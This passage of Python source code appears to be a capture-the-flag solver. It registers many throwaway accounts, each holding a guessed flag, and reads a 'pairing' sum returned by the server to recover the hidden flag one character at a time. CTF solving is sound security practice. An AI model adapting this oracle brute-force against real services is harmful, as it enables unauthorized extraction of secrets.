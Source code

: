 ```python
            response = requests.post(url, data=data)
            match = re.search(r'The pairing for .* and .* is: (\d+)', response.text)
            if match:
                return int(match.group(1))
            time.sleep(1)
        except:
            time.sleep(1)
    
    return None

def save_progress(current_flag):
    try:
        with open(SAVE_FILE, 'w') as f:
            json.dump({"flag": current_flag, "timestamp": time.time()}, f)
        print(f"Progress saved: {current_flag}")
    except Exception as e:
        print(f"Error saving progress: {e}")

def load_progress():
    if os.path.exists(SAVE_FILE):
        try:
            with open(SAVE_FILE, 'r') as f:
                data = json.load(f)
                print(f"Loaded saved progress from {time.ctime(data['timestamp'])}")
                return data["flag"]
        except Exception as e:
            print(f"Error loading progress: {e}")
    return None

def try_next_char(current_flag):
    chars = string.ascii_lowercase + string.digits + "_}" + string.ascii_uppercase
    lowest_sum = None
    best_flag = current_flag
    
    print(f"\nSearching for character at position {len(current_flag)}...")
    
    for i, char in enumerate(chars):
        test_flag = current_flag + char
        test_username = generate_username()
        
        print_progress_bar(i+1, len(chars), prefix=f"Testing '{char}'", suffix=f"{i+1}/{len(chars)}")
        
        if register_user(test_username, test_flag, max_retries=3):
            sum_value = check_pairing(test_username, "flag", max_retries=3)
            
            if sum_value is not None:
                if sum_value == 0:
                    print(f"\nFound complete flag: {test_flag}")
                    save_progress(test_flag)
                    return test_flag, True
                
                if lowest_sum is None or sum_value < lowest_sum:
                    lowest_sum = sum_value
                    best_flag = test_flag
                    
        time.sleep(0.3)
    
    if best_flag != current_flag:
        print(f"\n✓ Best character for position {len(current_flag)}: '{best_flag[-1]}' (sum: {lowest_sum})")
        save_progress(best_flag)
        return best_flag, False
```